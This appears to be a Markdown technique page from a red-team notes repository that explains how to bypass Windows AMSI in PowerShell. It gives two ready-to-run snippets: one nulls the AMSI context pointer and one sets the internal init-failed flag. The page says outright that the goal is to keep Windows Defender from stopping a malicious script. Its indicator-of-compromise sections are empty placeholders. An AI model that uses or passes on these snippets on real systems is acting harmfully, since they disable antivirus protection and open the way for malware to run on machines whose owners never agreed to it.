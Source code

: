 # Powershell AMSI Bypass
## Summary

AMSI (Antimalware Scan Interface) is used to monitor several processes under Windows that can be used to run commands, such as powershell and jscript. Under powershell, there are several methods that can be used to bypass this technology, which will prevent Windows Defender from stopping the powershell process whilst executing a malicious script. The following is an example of AMSI when it's functioning properly:

![AMSI Functioning](./images/Pasted%20image%2020230707132119.png)

## Prerequisites

Windows Defender (or another AV that implements AMSI) must be running and must be active. Further, the ability to execute powershell against the target is required.

## Setup

N/A

## Execution

### Method 1 - Nulling the AMSI Context

This method is used to null out the pointer that AMSI uses to keep track of its current context. Instead of crashing the process or preventing any command from being executed, all commands will be allowed to execute even if they are malicious. This technique can be done from powershell itself, and needs no external utility.

Use the following powershell code to bypass AMSI:

```powershell
foreach($x in [Ref].Assembly.GetTypes()){if($x.Name -like '*iUtils'){$a=$x}}
foreach($x in $a.GetFields('NonPublic,Static')){if($x.Name -like '*Context'){$c=$x}}
[IntPtr]$ptr=$c.GetValue($null)
[Int32[]]$buf=@(0)
[System.Runtime.InteropServices.Marshal]::Copy($buf, 0, $ptr, 1)
```

Now the 'amsiutils' test string should not trigger defender:

![Bypass AMSI](./images/Pasted%20image%2020230707132744.png)

#### Indicators of Compromise

TODO

### Method 2 - Telling AMSI that init Failed

Similar to method 1, only powershell is needed for this technique. Instead of corrupting the AMSI context pointer, it's possible to convince AMSI that it's initialization failed.

Use the following powershell to bypass AMSI:

```powershell
foreach($x in [Ref].Assembly.GetTypes()){if($x.Name -like '*iUtils'){$a=$x}}
foreach($x in $a.GetFields('NonPublic,Static')){if($x.Name -like '*iInitFailed'){$i=$x}}
$i.SetValue($null, $true)
```

Now the 'amsiutils' test string should not trigger defender:

![[Pasted image 20230707133543.png]]

#### Indicators of Compromise

TODO